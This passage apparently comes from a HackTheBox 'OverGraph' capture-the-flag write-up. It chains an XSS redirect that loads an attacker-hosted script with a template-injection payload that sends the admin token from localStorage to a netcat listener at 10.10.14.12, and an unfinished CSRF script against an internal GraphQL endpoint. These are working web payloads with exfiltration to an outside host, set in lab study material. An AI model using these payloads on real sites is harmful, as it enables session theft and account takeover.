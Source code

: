 ### burp ssti id changed to Larry --> unauthenticated 
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/OverGraph/screenshots/burp%20ssti%20id%20changed%20unauthenticated.png)

## putting it all together

### xss to load external file port 9001 --> python server on port 9001
````
http://graph.htb/?redirect=javascript:document.body.innerHTML%2B%3D%27%3Cscript%20src%3d%22http://10.10.14.12:9001/xsrf.js%22%3E%3C/script%3E%27

`````

### xxs to csti port 8888 --> nc listen on port 8888
````

{{constructor.constructor('fetch("http://10.10.14.12:8888/" + localStorage.getItem("adminToken"))')()}}  



{{constructor.constructor('fetch(\"http://10.10.14.12:8888/token?adminToken=\" + localStorage.getItem(\"adminToken\"))')()}}


`````

### xsrf.js
````js
//not working
var req = new XMLHttpRequest();
req.open('POST', 'http://internal.graph.htb/graphql', false);
req.setRequestHeader("Content-Type","text/plain");
req.withCredentials = true;
var body = JSON.stringify({
        operationName: "update",
        variables: {
                firstname: "mark",
                lastname: "{{constructor.constructor('fetch("http://10.10.14.12:8888/" + localStorage.getItem("adminToken"))')()}}",
                id: "6343e619f2b3970f28407b2d",
````